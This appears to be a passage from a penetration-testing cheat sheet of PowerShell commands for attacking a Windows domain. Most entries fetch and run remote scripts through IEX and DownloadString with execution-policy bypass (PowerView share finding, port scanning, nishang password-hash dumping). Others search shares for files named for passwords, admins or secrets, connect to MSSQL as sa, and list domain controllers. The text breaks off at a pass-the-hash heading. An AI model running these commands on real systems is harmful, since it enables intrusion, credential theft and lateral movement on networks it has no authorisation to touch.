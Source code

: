 Runas Powershell:

```powershell
Start-Process powershell.exe -Verb runas Start-Process powershell.exe -Credential <user>
```

View Shares With Permissions:

```powershell
powershell.exe -exec bypass -Command "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1');Invoke-ShareFinder -CheckShareAccess"
```

View files that contain certain words recursively:

```powershell
 ls -Path \\SVHOST1.LAZULI.CORP\tmp$ -Include "*pass*","*admin*","*secret*" -Recurse -ErrorAction SilentlyContinue
```

View files which name contains certain words recursively:

```powershell
dir -Path \\SVHOST1.LAZULI.CORP -Include "*pass*","*admin*","*secret*" -Recurse -ErrorAction SilentlyContinue
```

Connect to MSSQL Database:

 ```powershell
 IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/michaellwest/PowerShell-Modules/master/CorpApps/Invoke-SqlCommand.ps1')

Invoke-SqlCommand -Server 172.11.14.89 -Database master -Username sa -Password  -Query "exec sp_databases"
```

Port Scanning:

```powershell
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/Invoke-Portscan.ps1')

Invoke-Portscan -Hosts [ip] -TopPorts 50
```

View Domain Controlers

```powershell
nltest /dclist:
```
Get Hashes:

```powershell
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/samratashok/nishang/master/Gather/Get-PassHashes.ps1');Get-PassHashes
```

Check Pass The Hash with multiple servers:

